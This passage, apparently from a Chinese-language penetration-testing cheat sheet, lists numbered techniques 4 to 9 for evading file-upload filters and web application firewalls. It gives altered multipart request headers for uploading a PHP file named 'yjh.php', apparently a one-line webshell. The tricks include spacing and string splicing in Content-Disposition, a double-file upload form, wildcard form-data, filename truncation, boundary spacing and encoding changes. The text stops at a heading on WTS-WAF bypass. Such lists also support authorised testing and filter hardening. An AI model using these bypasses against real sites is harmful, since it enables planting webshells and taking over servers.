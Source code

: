 ```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
将Content-Disposition: form-data          冒号后面 增加或减少一个空格
将form-data; name="file";                分号后面 增加或减少一个空格
将 Content-Type: application/octet-stream   冒号后面 增加一个空格
```

4、通过字符串拼接绕过

```
看Content-Disposition: form-data; name="file"; filename="yjh3.php"
将 form-data 修改为   f+orm-data
将 from-data 修改为   form-d+ata
```

5、双文件上传绕过

```
form action="https://www.xxx.com/xxx.asp(php)" method="post"
name="form1" enctype="multipart/form‐data">
<input name="FileName1" type="FILE" class="tx1" size="40">
<input name="FileName2" type="FILE" class="tx1" size="40">
<input type="submit" name="Submit" value="上传"></form>
```

6、HTTP header 属性值绕过

```
Content-Disposition: form-data; name="file"; filename="yjh.php"
我们通过替换form-data 为*来绕过
Content-Disposition: *; name="file"; filename="yjh.php"
```

7、HTTP header 属性名称绕过

```
源代码:Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
绕过内容如下：
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.pngC.php"
删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php".
```

8、等效替换绕过

```
原内容：
Content-Type: multipart/form-data; boundary=---------------------------471463142114
修改后:Content-Type: multipart/form-data; boundary =---------------------------471463142114
boundary后面加入空格。
```

9、修改编码绕过

```
使用UTF-16、Unicode、双URL编码等等
```

#### WTS-WAF 绕过上传
